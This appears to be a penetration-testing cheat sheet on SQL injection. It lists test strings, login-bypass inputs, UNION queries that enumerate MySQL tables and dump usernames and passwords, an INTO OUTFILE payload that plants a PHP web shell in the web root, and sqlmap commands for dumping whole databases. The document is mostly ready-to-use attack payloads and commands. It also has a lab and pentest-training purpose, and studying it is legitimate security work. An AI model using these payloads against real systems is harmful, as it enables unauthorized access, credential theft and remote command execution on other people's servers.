# SQL injection

## Basic techniques

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

### POST parameters

You can also attempt to inject parameters passed using POST requests, but you'll need Burp or Firefox tamper to view and edit them. For example, you can test a parameter by adding a `'` at the end, like `lang=en'`.

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```text
username' or 1=1;#
username'-
```

## Database enumeration

The exact syntax for injection will vary by database type. In most lab scenarios, the database will be MySQL.

Get version:

```text
http://[host]/inj.php?id=1 union all select 1,2,3,@@version,5
```

You can get the number of columns through trial and error using `order by`. For each query, increase the column number until the database throws an unknown column error:

```text
http://[host]/inject.php?id=54 order by 1
http://[host]/inject.php?id=54 order by 2
http://[host]/inject.php?id=54 order by 3
```

Get the current user:

```text
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```

See all tables:

```text
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```

Get column names for a specified table:

```text
http://ip/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```

Get usernames and passwords \(0x3a means `:`\):

```text
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```

You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root:

```text
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

I suspect you could inject a full reverse shell in there too...

## SQLmap

Assuming you've tested a parameter with `'` and it is injectable, run SQL map against the URL:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbms=mysql
```

It may not run unless you specify the database type.

Get the databases:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbs --dbms=mysql
```

Get the tables in a database:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --tables -D [database name]
```

Get the columns in a table:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --columns -D [database name] -T [table name]
```

Dump a table:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dump -D [database name] -T [table name]
```

### Passing tokens

If the URL isn't accessible, you can pass cookie data or authentication credentials to SQLmap by pasting the post request in a file and using the `-r` option:

```text
sqlmap -r request.txt
```

If you just need to pass a cookie:

```text
sqlmap -u "http://[host]/inject.php" --cookie "PHPSESSID=foobar"
```

### REST-style URLs

If your URLs have no parameters, you can still test them:

```text
sqlmap -u "http://[host]/param1*/param2*"
```

## Further reading

* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Dumping a complete database using SQL injection](https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
* [SQLmap tutorial](https://www.binarytides.com/sqlmap-hacking-tutorial/)

